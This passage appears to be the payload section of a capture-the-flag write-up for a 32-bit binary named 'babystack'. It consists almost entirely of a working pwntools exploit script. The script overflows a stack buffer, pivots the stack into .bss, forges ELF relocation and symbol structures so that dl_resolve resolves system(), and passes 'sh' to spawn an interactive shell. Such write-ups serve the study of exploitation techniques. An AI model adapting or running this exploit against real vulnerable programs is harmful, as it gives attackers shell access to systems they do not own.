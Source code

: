 # 7. Payload
```python
from pwn import *
r = process("./babystack")
_elf = ELF("./babystack")
resolver = 0x80482F0    #push link_map and call dl_resolve
buf = 0x804af00         #controllable area (.bss)
leave_ret = 0x8048455   #gadget
SYMTAB = 0x080481cc
STRTAB = 0x0804822c
JMPREL = 0x080482b0

# Pivoting the stack and calling read(0, buf, 0x80) for the rest of the payload
buffer = ""
buffer += "A"*40
buffer += p32(buf)   #stack pivoting. (esp = buff)
buffer += p32(_elf.plt["read"]) + p32(leave_ret) + p32(0) + p32(buf) + p32(0x80) 

# Compute offsets and forged structures
forged_ara = buf + 0x14
rel_offset = forged_ara - JMPREL
elf32_sym = forged_ara + 0x8 #size of elf32_rel

align = 0x10 - ((elf32_sym - SYMTAB) % 0x10) #align to 0x10

elf32_sym = elf32_sym + align
index_sym = (elf32_sym - SYMTAB) / 0x10

r_info = (index_sym << 8) | 0x7 

elf32_rel = p32(_elf.got['read']) + p32(r_info)
st_name = (elf32_sym + 0x10) - STRTAB
elf32_sym_struct = p32(st_name) + p32(0) + p32(0) + p32(0x12)

# Rest of the payload: dl-resolve hack :) (the real deal)
buffer2 = 'AAAA'                #fake ebp
buffer2 += p32(resolver)        # ret-to dl_resolve
buffer2 += p32(rel_offset)      #JMPRL + offset = struct
buffer2 += 'AAAA'               #fake return 
buffer2 += p32(buf+100)         # system parameter
buffer2 += elf32_rel            # (buf+0x14)
buffer2 += 'A' * align
buffer2 += elf32_sym_struct     # (buf+0x20)
buffer2 += "system\x00"
p = (100 - len(buffer2))
buffer2 += 'A' * p              #padding
buffer2 += "sh\x00"
p = (0x80 - len(buffer2))
buffer2 += "A" * p              #total read size

r.send(buffer + buffer2)
r.interactive()
```
